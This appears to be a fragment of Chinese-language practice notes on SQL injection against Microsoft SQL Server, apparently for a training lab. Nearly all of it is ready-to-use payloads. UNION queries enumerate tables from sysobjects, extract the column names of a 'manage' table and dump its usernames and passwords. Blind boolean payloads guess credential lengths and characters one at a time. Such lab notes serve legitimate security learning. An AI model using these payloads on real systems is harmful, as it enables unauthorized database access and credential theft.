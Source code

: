 ```bash
union all select 1,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u' and name not in ('manage','announcement')),'3',4


# 3.查列名
union all select 1,(select top 1 col_name(object_id('manage'),1)from sysobjects),'3',4

union all select 1,(select top 1 col_name(object_id('manage'),2)from sysobjects),'3',4

union all select 1,(select top 1 col_name(object_id('manage'),3)from sysobjects),'3',4



#例子：
id=-2 union all select null,(select top 1 col_name(object_id('manage'),1) from sysobjects),null,null

id=-2 union all select null,(select top 1 col_name(object_id('manage'),2) from sysobjects),null,null

union all select null,(select top 1 col_name(object_id('manage'),3) from sysobjects),null,null


id=-2 union all select null,(select top 1 col_name(object_id('manage'),4) from sysobjects),null,null #以上几步说明mange表总共有3列，分别为：id、username、password

# 4.爆破值
union all select null,username, password ,null from manage





```



判断字段长度和值:

```bash
#判断username长度和值
# 长度 len()
and exists (select id from manage where len(username)<20 and id=1)

and exists (select id from manage where len(username)<15 and id=1)

and exists (select id from manage where len(username)=8 and id=1)

# 值 unicode()
and exists (select id from manage where unicode(substring(username,2,1)) = 100 and id=1)
```


